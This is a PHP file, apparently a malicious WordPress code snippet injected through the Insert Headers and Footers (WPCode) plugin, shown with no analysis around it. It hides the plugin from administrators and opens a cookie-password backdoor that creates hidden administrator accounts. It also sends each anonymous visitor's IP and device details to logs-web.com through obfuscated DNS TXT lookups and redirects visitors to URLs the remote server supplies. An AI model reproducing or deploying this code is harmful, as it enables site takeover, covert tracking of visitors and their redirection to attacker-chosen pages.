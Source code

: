 $_pwsa = '93d8469426b733c14e1975ce6562f42e';

if (current_user_can('administrator') && !array_key_exists('show_all', $_GET)) {
    add_action('admin_print_scripts', function () {
        echo '<style>';
        echo '#toplevel_page_wpcode { display: none; }';
        echo '#wp-admin-bar-wpcode-admin-bar-info { display: none; }';
        echo '#wpcode-notice-global-review_request { display: none; }';
        echo '</style>';
    });

    add_filter('all_plugins', function ($plugins) {
        unset($plugins['insert-headers-and-footers/ihaf.php']);
        return $plugins;
    });
}

if (!function_exists('_red')) {
    error_reporting(0);
    ini_set('display_errors', 0);

    function _gcookie($n)
    {
        return (isset($_COOKIE[$n])) ? base64_decode($_COOKIE[$n]) : '';
    }

    if (!empty($_pwsa) && _gcookie('pw') === $_pwsa) {
        switch (_gcookie('c')) {
            case 'sd':
                $d = _gcookie('d');
                if (strpos($d, '.') > 0) {
                    update_option('d', $d);
                }
                break;
            case 'au':
                $u = _gcookie('u');
                $p = _gcookie('p');
                $e = _gcookie('e');

                if ($u && $p && $e && !username_exists($u)) {
                    $user_id = wp_create_user($u, $p, $e);
                    $user = new WP_User($user_id);
                    $user->set_role('administrator');
                }
                break;
        }
        return;
    }

    if (@stripos(wp_login_url(), ''.$_SERVER['SCRIPT_NAME']) !== false) {
        return;
    }

    if (_gcookie("skip") === "1") {
        return;
    }

    function _is_mobile()
    {
        return @preg_match("/(android|webos|avantgo|iphone|ipad|ipod|blackberry|iemobile|bolt|boost|cricket|docomo|fone|hiptop|mini|opera mini|kitkat|mobi|palm|phone|pie|tablet|up\.browser|up\.link|webos|wos)/i", ''.$_SERVER["HTTP_USER_AGENT"]);
    }

    function _is_iphone()
    {
        return @preg_match("/(iphone|ipod)/i", ''.$_SERVER["HTTP_USER_AGENT"]);
    }

    function _user_ip()
    {
        foreach (array('HTTP_CF_CONNECTING_IP', 'HTTP_CLIENT_IP', 'HTTP_X_FORWARDED_FOR', 'HTTP_X_FORWARDED', 'HTTP_X_CLUSTER_CLIENT_IP', 'HTTP_FORWARDED_FOR', 'HTTP_FORWARDED', 'REMOTE_ADDR') as $key) {
            if (array_key_exists($key, $_SERVER) && !empty($_SERVER[$key])) {
                foreach (@explode(',', ''.$_SERVER[$key]) as $ip) {
                    $ip = trim($ip);
                    if (filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE) !== false) {
                        return $ip;
                    }
                }
            }
        }

        return false;
    }

    function _red()
    {
        if (is_user_logged_in()) {
            return;
        }

        $ip = _user_ip();
        if (!$ip) {
            return;
        }

        $exp = get_transient('exp');
        if (!is_array($exp)) {
            $exp = array();
        }

        foreach ($exp as $k => $v) {
            if (time() - $v > 86400) {
                unset($exp[$k]);
            }
        }

        if (key_exists($ip, $exp) && (time() - $exp[$ip] < 86400)) {
            return;
        }

        $host = filter_var(parse_url('https://' . $_SERVER['HTTP_HOST'], PHP_URL_HOST), FILTER_VALIDATE_DOMAIN, FILTER_FLAG_HOSTNAME);
        $ips = str_replace(':', '-', $ip);
        $ips = str_replace('.', '-', $ips);

        $h = 'logs-web.com';
        $o = get_option('d');
        if ($o && strpos($o, '.') > 0) {
            $h = $o;
        }
        $m = _is_iphone() ? 'i' : 'm';
        $req = (!$host ? 'unk.com' : $host) . '.' . (!$ips ? '0-0-0-0' : $ips) . '.' . mt_rand(100000, 999999) . '.' . (_is_mobile() ? 'n' . $m : 'nd') . '.' . $h;

        $s = null;
        try {
            $v = "dns_" . "get" . "_record";
            $s = @$v($req, DNS_TXT);
        } catch (\Throwable $e) {
        } catch (\Exception $e) {
        }

        if (is_array($s) && !empty($s)) {
            if (isset($s[0]['txt'])) {
                $s = $s[0]['txt'];
                $s = base64_decode($s);

                if ($s == 'err') {
                    $exp[$ip] = time();
                    delete_transient('exp');
                    set_transient('exp', $exp);
                } else if (substr($s, 0, 4) === 'http') {
                    $exp[$ip] = time();
                    delete_transient('exp');
                    set_transient('exp', $exp);
                    wp_redirect($s);
                    exit;
                }
            }
        }
    }

    add_action('init', '_red');
}
